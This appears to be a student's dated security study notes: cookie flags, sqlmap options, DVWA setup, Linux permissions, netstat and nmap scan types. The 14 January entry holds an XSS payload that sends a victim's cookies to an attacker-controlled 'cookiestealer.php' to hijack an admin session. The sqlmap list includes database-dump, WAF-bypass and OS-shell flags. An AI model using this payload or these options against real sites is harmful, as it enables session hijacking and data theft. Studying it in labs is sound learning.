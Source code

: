 # JAN
## 14
### Additional Flags to Prevent Cookie Manipulation
- httpOnly flag
- secure flag

### document.location
- Also window.location - represents the URL of the webpage

### Cookie Stealing Using A Web Server
```javascript
<script>document.location='http://your ip/cookiestealer.php?c='+document.cookie;</script>
```

**Motivation:** Uploading a malicious JS script so that an admin views it and his cookies are sent to my server so that I can hijack his session. <br>
**Note:** All session tokens are cookies but no all cookies are session tokens.

## 15
https://www.stationx.net/sqlmap-cheat-sheet/
### SQLMAP
- 6 Techniques
- `--crawl 3` : Depth -> 3
- `--batch` : Default
- `--technique="U"` : Union Attack
- `--threads` : Saves time
- `--risk 1/2/3`
- `--level 1/2/3/4/5` : Increases range of vulnerabilites/Increases false positive
- `-V 1/2/3/4/5`
- ![image](https://github.com/PranjalBasak/Documentation/assets/66166653/9b1f8674-9aa1-44b7-9c7f-ca4a83f87839)

- `--current-user`
- `--current-db`
- `--hostname`
- `--dbs` : Show all Database details
- `-D <database_name> --tables` : Show tables
- `-T <table_name> --dump` : Show data of `<table_name>`
- `-D <db> -T <table> --columns` : Show all the columns of `<table>`
- `-D <db> --dump-all` : Dump all the data of database `<db>`
- `--output-dir=<url>`
- `--headers="Referer:abc.com" -v 4 --batch`
- `--user-agent="GECKO_Chrome" -v 4 --batch`
- `--mobile -v 4 --batch` : Pretending to be a mobile user agent
- `--list-tampers` : Lists WAF Bypass Techniques
- `--tamper=base64encode -v 3 --batch`
- `--forms`: Sends data to a form
- `--data="uname=abc&pass=abc&login=submit" --dbs`
- `--proxy="127.0.0.1:4444"` : Can use burpsuite
- `-r abc --batch`
-  `--cookie`
-  `--flush-session` : Clears SQLi sessions so that we can use new payloads
-  `--comment` : Brings hidden comments
-  `--os-shell` : Brings command shell
-  `--os-cmd`

## 16 Jan

```bash
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

```bash
python3 /bin/sqlmap/sqlmap.py
```

Resources to Learn and Practice
https://nmap.org/book/man.html
https://nmap.org/docs.html
https://hackertarget.com/nmap-cheatsheet-a-quick.../
https://hackertarget.com/nmap-tutorial/
https://www.stationx.net/nmap-cheat-sheet/
https://media.x-ra.de/doc/NmapCheatSheetv1.1.pdf
https://www.100security.com.br/netdiscover
https://kalilinuxtutorials.com/netdiscover-scan-live.../
https://www.youtube.com/watch?v=PS677owUk-c
https://www.stationx.net/nmap-cheat-sheet/
https://redteamtutorials.com/2018/10/14/nmap-cheatsheet/
https://resources.infosecinstitute.com/nmap-cheat-sheet/...
https://medium.com/.../nmap-cheat-sheet-nmap-scanning...
[https://resources.infosecinstitute.com/network.../...
](https://resources.infosecinstitute.com/network-discovery-tool/?fbclid=IwAR0SzhZwp6lbIuxRzjcyxREzOcdN5J1wyvCu4RpnkBEYZPKogLl9YDmb3wQ#gref)https://resources.infosecinstitute.com/network-discovery-tool/?fbclid=IwAR0SzhZwp6lbIuxRzjcyxREzOcdN5J1wyvCu4RpnkBEYZPKogLl9YDmb3wQ#gref
0x207c20


## 17 Jan
`chmod 1777`
- 1 : Sticky Bit -> Allows the deletion of a file within a directory
- 2 : SGID -> Set GID Bit -> Gives the files within the directory the group owner of the directory rather than the group owner of the file
- 3 : SUID -> Set UID Bit -> Used for Scripts to allow them to use sudo privileges
### Useful Commands
- `umask 0777` : Remove all of rwx permission from ugo
- `chgrp <group> <file/dir>` : Change the group of a file or directory
- `touch dir/{1,2,3}`
- `dpkg -l`
- `dpkg -s <pkg_name>`
- `apt-cache search <description of the pkg>` : Look for a package to install

[Bash Scripting CheatSheet](https://devhints.io/bash)

## 18 Jan
- httpd is the same as apache2

### Netstat Cheatsheet: Display TCP and UDP Connections

## Command:
```bash
netstat -tulpen
```

## Options:
- **`-t`**: Display TCP connections.
- **`-u`**: Display UDP connections.
- **`-l`**: Display listening sockets.
- **`-p`**: Show the process ID and name for the involved programs.
- **`-e`**: Display additional information. (Note: This might be replaced by `-n` for faster output without hostname resolution.)

## Example Output:
```bash
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          123456     789/sshd
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      0          789012     1234/postgres
udp        0      0 0.0.0.0:123             0.0.0.0:*                           0          567890     456/ntpd
...
```

### Scoring Vulnerabilities
- CVSS (Common Vulnerability Scoring System)
- VPR (Vulnerability Priority Rating)

### Vulnerability Databases
1. [NVD (National Vulnerability Database)](https://nvd.nist.gov/vuln)
2. [Exploit-DB](http://exploit-db.com/)

In cybersecurity, vulnerabilities are classified under **“Common Vulnerabilities and Exposures”** (Or CVE for short).
These CVEs have the formatting of `CVE-YEAR-IDNUMBER`. For example, the vulnerability that the famous malware WannaCry used was `CVE-2017-0144`.

### Nmap Port Scan Types

When port scanning with Nmap, there are three basic scan types:

1. **TCP Connect Scans (-sT):** Establishes a full connection to the target's ports.

2. **SYN "Half-open" Scans (-sS):** Initiates a SYN scan, also known as a stealth scan, by sending SYN packets to target ports.

3. **UDP Scans (-sU):** Focuses on UDP ports, which are connectionless and less reliable than TCP.

Additionally, there are several less common port scan types:

- **TCP Null Scans (-sN):** Sends packets with no TCP flags set.

- **TCP FIN Scans (-sF):** Sends packets with only the FIN flag set.

- **TCP Xmas Scans (-sX):** Sends packets with the FIN, PSH, and URG flags set, creating a "Christmas tree" pattern.

**Open Port:**

![image](https://github.com/PranjalBasak/Documentation/assets/66166653/6de32c6e-560e-4ac2-ad40-e37210261850)

**Closed Port:**

![image](https://github.com/PranjalBasak/Documentation/assets/66166653/baabe6c2-77a6-437e-8629-4b0670976922)





